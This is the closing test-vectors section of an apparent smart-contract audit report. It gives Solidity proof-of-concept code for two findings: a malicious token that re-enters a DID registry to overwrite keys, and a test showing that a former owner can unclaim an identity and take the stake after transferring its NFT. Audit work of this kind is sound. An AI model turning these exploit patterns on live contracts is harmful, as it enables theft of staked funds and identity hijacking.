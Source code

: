 \documentclass[
]{article}
\newenvironment{Shaded}{}{}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Test Vectors}\label{test-vectors}

\subsubsection{C-01 Reentrancy Test}\label{c-01-reentrancy-test}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{contract MaliciousToken \{}
\NormalTok{    Registry registry;}

\NormalTok{    function transfer(address, uint256) external returns (bool) \{}
\NormalTok{        // Re{-}enter while owner still set}
\NormalTok{        registry.setKeys("did:lux:attacker", "evil", "evil");}
\NormalTok{        return true;}
\NormalTok{    \}}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\subsubsection{C-02 Ownership Desync
Test}\label{c-02-ownership-desync-test}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{function testOwnershipDesync() public \{}
\NormalTok{    // Alice claims}
\NormalTok{    registry.claim(params);}

\NormalTok{    // Alice transfers NFT to Bob}
\NormalTok{    identityNft.transferFrom(alice, bob, tokenId);}

\NormalTok{    // Alice can still unclaim and steal stake}
\NormalTok{    vm.prank(alice);}
\NormalTok{    registry.unclaim("did:lux:alice");  // Should fail but doesn\textquotesingle{}t}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\textbf{End of Audit Report}
\end{document}
